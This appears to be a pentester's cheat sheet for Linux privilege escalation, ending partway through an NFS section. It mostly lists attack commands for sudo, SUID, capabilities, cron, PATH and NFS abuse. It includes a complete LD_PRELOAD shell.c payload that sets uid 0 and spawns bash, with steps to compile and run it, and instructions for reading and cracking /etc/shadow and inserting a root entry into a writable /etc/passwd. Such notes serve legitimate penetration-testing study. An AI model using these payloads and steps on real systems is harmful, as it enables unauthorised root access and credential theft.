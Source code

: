 linux priv esc enum
```
hostname
uname -a     //kernel version
/proc/version
/etc/issue
ps
ps -A   //all processes
ps axjf  //process trees
ps aux   //processes for all users
env    //environment variables
sudo -l  //all commands user can run using sudo
ls
ls -l
ls -la  //hidden files
id
/etc/passwd
/etc/shadow
history
ifconfig
ip route
netstat
netstat -a  ///all listening ports
netstat -at or -au //list all TCP or UDP ports
netstat -l //ports in listening mode
netstat -s    //network usage statistics by protocol, use -u or -t to limit the output to a specific protocol
netstat -tp or -ltp  //connections with services names and pid
netstat -i    //interface statistics
netstat -a   //display all sockets
netstat -n    //do not resolve names
netstat -o   //display timers
find
find . -name  //find for current directory
find /home -name  //find files in the /home directory
find / -type d -name config    //find the directoru named config under /
find / -type f -perm 0777   //find files with permissions
find / -perm a=x     //find executable files
find /home -user    //find all files for a user under /home
find / -mtime 10    //find files modified in the last 10 days
find / -atime 10    //find files that were accessed in the last 10 days
find / -cmin -60     //find files changed within the last hour
find / -amin  -60    //find files accessed within the last hour
find / -size  50M   //find files with 50mb size


IMP

find / -writable -type d 2>/dev/null    //find world writable folders
find / -perm -222 -type d 2>/dev/null   //find world writable folders
find / -perm -o w -type d 2>/dev/null   // find world writeable folders

find / -perm -o x -type d 2>/dev/null   //find world executable folders
find / -name perl*
find / -name python*
find / -name gcc*

find / -perm -u=s -type f 2>/dev/null    //find files with suid bits that allows to run the file with higher privileges
locate
grep
cut
sort
```




USING KERNEL EXPLOITS
```
identify the kernel version
look for available exploits for privesc
```



SUDO
```
sudo -l   //look for commands that are running as a privileged user, check gtfobins
```



LD_PRELOAD
```
if ruid == euid
Check for LD_PRELOAD (with the env_keep option)
Write a simple C code compiled as a share object (.so extension) file
Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file


shell.c
``````
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init()
{
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
``````


compile it using gcc
``````
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
``````

sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

```





SUID
```
list files that have SUID or SGID set
``````
find / -type f -perm -04000 -ls 2>/dev/null
//compare executables on this list with gtfobins
``````


look for /etc/passwd(check if writable) and /etc/shadow(check if readable)

``````
readable /etc/shadow

#use johntheripper for contents of shadow file
unshadow passwd.txt shadow.txt > passwords.txt

#bruteforce with wordlist to retrieve several passwords
``````

``````
writable /etc/passwd

openssl passwd -1 -salt <enter-salt> <enter-password>
#add this hash value as password with a username in /etc/passwd

#add root:/bin/bash to provide a root shell

```


CAPABILITIES
```
check different file capabilities
``````
getcap -r / 2>/dev/null
``````
check gtfobins for capabilities


note: you wont find capabilities when enumerating files for suid

```




CRONTABS
```
cat /etc/crontab
```



PATHS
```
find / -writable 2>&/dev/null

find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

writable folders
export PATH=/add/path:$PATH

```




NFS
```
/etc/exports
check if no_root_squash 
showmount -e <target-ip>   //on attacker machine

mkdir /<mountable-share>/backupsonattacketmachine

mount -o rw <target-ip>:/backups /<mountable-share>/backupsonattackermachine
